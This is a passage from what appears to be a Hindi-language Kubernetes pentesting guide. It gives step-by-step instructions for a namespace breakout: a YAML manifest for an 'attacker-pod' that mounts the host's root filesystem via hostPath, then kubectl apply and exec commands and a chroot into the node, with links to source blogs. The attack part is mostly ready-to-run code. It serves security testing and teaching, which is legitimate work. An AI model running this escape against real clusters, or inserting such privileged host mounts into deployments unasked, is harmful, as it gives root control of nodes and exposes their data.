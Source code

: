 फिर आप अपना attack.yaml फ़ाइल बनाते हैं।
```yaml
apiVersion: v1
kind: Pod
metadata:
labels:
run: attacker-pod
name: attacker-pod
namespace: default
spec:
volumes:
- name: host-fs
hostPath:
path: /
containers:
- image: ubuntu
imagePullPolicy: Always
name: attacker-pod
command: ["/bin/sh", "-c", "sleep infinity"]
volumeMounts:
- name: host-fs
mountPath: /root
restartPolicy: Never
# nodeName and nodeSelector enable one of them when you need to create pod on the specific node
#nodeName: master
#nodeSelector:
#  kubernetes.io/hostname: master
# or using
#  node-role.kubernetes.io/master: ""
```
[original yaml source](https://gist.github.com/abhisek/1909452a8ab9b8383a2e94f95ab0ccba)

उसके बाद आप पॉड बनाते हैं
```bash
kubectl apply -f attacker.yaml [-n <namespace>]
```
अब आप निम्नलिखित के अनुसार बनाए गए पॉड पर स्विच कर सकते हैं
```bash
kubectl exec -it attacker-pod [-n <namespace>] -- sh # attacker-pod is the name defined in the yaml file
```
और अंत में आप नोड के सिस्टम में chroot करते हैं
```bash
chroot /root /bin/bash
```
Information obtained from: [Kubernetes Namespace Breakout using Insecure Host Path Volume — Part 1](https://blog.appsecco.com/kubernetes-namespace-breakout-using-insecure-host-path-volume-part-1-b382f2a6e216) [Attacking and Defending Kubernetes: Bust-A-Kube – Episode 1](https://www.inguardians.com/attacking-and-defending-kubernetes-bust-a-kube-episode-1/)

## References

{% embed url="https://www.cyberark.com/resources/threat-research-blog/kubernetes-pentest-methodology-part-3" %}
